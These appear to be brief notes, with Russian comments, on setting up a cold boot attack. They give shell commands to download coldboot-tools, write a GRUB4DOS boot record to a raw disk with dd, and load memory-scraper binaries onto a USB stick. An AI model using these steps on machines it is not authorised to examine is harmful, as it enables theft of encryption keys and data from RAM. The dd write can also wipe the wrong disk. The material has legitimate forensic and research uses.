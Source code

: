 # Cold Boot Attack (ориг)[https://hackmag.com/security/cold-boot-attack/]

wget https://github.com/baselsayeh/coldboot-tools/releases/download/2/bios_memimage64.zip # скачиваем наш скрипт
sudo dd if=grldr.mbr of=/dev/sdb conv=notrunc   # устанавливаем GRUB4DOS на диск
sudo fdisk /dev/sdb     # создаем 1 раздел (заполнять не до конца 4-8 гб оставить)
sudo mkfs.fat /dev/sdb1 # используем простую файловую систему
sudo mount /dev/sdb1 /media/usb 
cp grldr menu_sec_part.lst scraper*.bin /media/usb/ # грузим утилиты


